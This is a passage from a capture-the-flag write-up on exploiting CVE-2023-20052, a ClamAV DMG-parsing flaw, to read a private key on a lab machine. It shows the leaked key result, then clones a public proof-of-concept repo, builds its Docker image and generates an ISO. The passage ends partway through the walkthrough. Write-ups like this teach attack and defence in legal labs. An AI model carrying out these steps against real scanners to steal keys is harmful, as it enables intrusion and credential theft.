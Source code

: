 ![](/img/image-20230510170430588.png)

#### Exploit

I'll upload this file again, and run it just like before. Where before
it said "text value is plst", now it has the private key:

![](/img/image-20230510172335764.png)

### Public Exploit

Not long after the release of Snoopy, nokn0wthing put out [this
repo](https://github.com/nokn0wthing/CVE-2023-20052). It has a Docker
container that will generate the DMG file for me.

Following the instructions in the repo, I'll clone it and build the
container:



    oxdf@hacky$ git clone https://github.com/nokn0wthing/CVE-2023-20052.git
    Cloning into 'CVE-2023-20052'...
    remote: Enumerating objects: 15, done.
    remote: Counting objects: 100% (15/15), done.
    remote: Compressing objects: 100% (14/14), done.
    remote: Total 15 (delta 4), reused 4 (delta 0), pack-reused 0
    Receiving objects: 100% (15/15), 47.69 KiB | 2.17 MiB/s, done.
    Resolving deltas: 100% (4/4), done.
    oxdf@hacky$ cd CVE-2023-20052/
    oxdf@hacky$ docker build -t cve-2023-20052 .
    ...[snip]...



I'll drop into the container, mounting the current directory in as the
`/exploit` directory:



    oxdf@hacky$ docker run -v $(pwd):/exploit -it cve-2023-20052 bash
    root@c1cff2f4ad04:/exploit# 



The first step is to generate an ISO image. There's one in `/exploit`,
but I'll delete it for the sake of demo:



    root@39e742dc1260:/exploit# rm test.img 
    root@39e742dc1260:/exploit# genisoimage -D -V "exploit" -no-pad -r -apple -file-mode 0777 -o test.img .
    genisoimage: Warning: no Apple/Unix files will be decoded/mapped
    Total translation table size: 0
    Total rockridge attributes bytes: 6878
    Total directory bytes: 36864
    Path table size(bytes): 240
    Max brk space used 1b000
    181 extents written (0 MB)
